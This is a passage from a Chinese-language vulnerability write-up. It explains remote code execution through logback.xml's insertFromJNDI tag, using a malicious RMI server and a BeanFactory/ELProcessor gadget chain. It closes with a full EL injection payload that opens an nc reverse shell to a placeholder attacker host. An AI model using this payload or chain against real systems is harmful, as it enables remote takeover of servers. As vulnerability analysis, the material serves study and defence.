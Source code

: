 如红框中所示

![](media/66e6d7ece8ce1dbfd308720f8cbbb751.png)



**远程代码执行**

可以在logback.xml中使用insertFromJNDI标签，这个标签允许我们从 JNDI
加载变量，导致了rce漏洞产生。  
rce的流程主要分为4步。

```
1.  构造 Get 请求访问目标，使其去外部服务器加载恶意 logback.xml 文件。

2.  解析 logback.xml 时，最终会触发 InitialContext.lookup(URI) 操作，而URI
    为恶意 RMI 服务地址。

3.  恶意 RMI 服务器向目标返回一个 Reference 对象，Reference
    对象中指定了目标本地存在的 BeanFactory 类，以及Bean Class
    的类名、属性、属性值（这里为 ELProcessor 、x、eval(...))。

4.  目标在进行 lookup() 操作时，会动态加载并实例化 BeanFactory 类，接着调用
    factory.getObjectInstance() 方法，通过反射的方式实例化 Reference
    所指向的任意 Bean Class，并且会调用 setter
    方法为所有的属性赋值。对应我们的代码，最终调用 setter
    方法的时候，就是执行如下代码：

ELProcessor.eval(\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc evil-server-ip port >/tmp/f']).start()\"
```
